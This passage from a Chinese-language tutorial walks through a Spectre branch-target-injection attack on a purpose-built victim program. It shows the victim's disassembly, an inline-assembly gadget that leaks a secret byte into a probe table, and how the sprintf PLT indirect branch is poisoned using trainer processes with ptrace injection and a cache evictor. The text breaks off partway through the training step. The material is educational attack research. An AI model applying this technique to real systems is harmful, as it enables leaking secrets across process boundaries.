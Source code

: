 ## 6.3 找到gadget

前面5.2节讲到了gadget的作用，首先要在victim中找到一个可以被attack控制的寄存器，分析victim循环部分的汇编可知在调用sprintf之前attack可以控制rdx寄存器，因此可以通过向victim发送secret地址控制rdx指向secret。

```c
  400c03: 48 8d 95 78 ff ff ff     lea    -0x88(%rbp),%rdx              ! 变量a的地址   
  400c0a: 48 89 ce                 mov    %rcx,%rsi                     ! 格式化字符串"%ld\n"的地址
  400c0d: 48 89 c7                 mov    %rax,%rdi                     ! buf的地址
  400c10: b8 00 00 00 00           mov    $0x0,%eax
  400c15: e8 f6 fb ff ff           callq  400810 <sscanf@plt>
  400c1a: 48 8b 95 78 ff ff ff     mov    -0x88(%rbp),%rdx              ! 攻击者传入的整数被装入rdx，并作为sprintf的第三参数
  400c21: b9 51 00 41 00           mov    $0x410051,%ecx
  400c26: 48 8d 45 80            lea    -0x80(%rbp),%rax
  400c2a: 48 89 ce                 mov    %rcx,%rsi                     ! send的地址
  400c2d: 48 89 c7                 mov    %rax,%rdi                     ! 格式化字符串"%ld\n"的地址
  400c30: b8 00 00 00 00           mov    $0x0,%eax
  400c35: e8 c6 fb ff ff           callq  400800 <sprintf@plt>
```

我们可以在动态库中寻找gadget，但这里我直接在victim中编写了gadget，这部分代码在victim中不会得到执行：

```c
/*
*  victim.c  line 21
*/
__asm__(".text\n.globl gadget\ngadget:\n"       //编到.text段，导出gadget符号
        "xorl %eax, %eax\n"                     //清空eax
        "movb (%rdx), %ah\n"                    //rdx可以被攻击者控制
        "movl ProbeTable(%eax), %eax\n"         //访存
        "retq\n");
```

## 6.4 在victim中找到间接分支

在程序中调用外部函数时用到了延迟绑定（Lazy Binding）技术，sprintf是glibc中的函数，call <sprintf@plt>调用0x400800处的代码：

```c
  0000000000400800 <sprintf@plt>:
  400800: ff 25 da fb 22 00      jmpq   *0x22fbda(%rip)        # 6303e0 <sprintf@GLIBC_2.2.5>
  400806: 68 06 00 00 00           pushq  $0x6
  40080b: e9 80 ff ff ff           jmpq   400790 <.plt>
```

在0x400800处又跳转到0x6303e0所指向的地址，而0x6303e0则是sprintf的got表项，里面存放了sprintf的真实地址。这里可以确定需要毒化的就是0x400800处的间接分支。在evictor进程的作用下，0x6303e0处的缓存行被从缓存中刷新，导致在取得sprintf地址的过程中出现时间窗口。在trainer进程的作用下，预测器在0x400800处给出的预测地址为gadget的地址，因此CPU预测执行gadget将secret的字符信息泄漏到ProbeTable中。

## 6.5 训练间接分支

每个CPU核心独占一个分支预测器，由于不知道victim会运行在那个CPU上，所以需要在每个核心上运行一个trainer进程。在trainer进程中使用execv函数加载victim，利用ptrace代码注入的手段在sprintf@got（0x6303e0）的位置处填入gadget的地址，再将gadget的第一条指令的机器码改为ret，最后在进程的断点处注入循环代码：
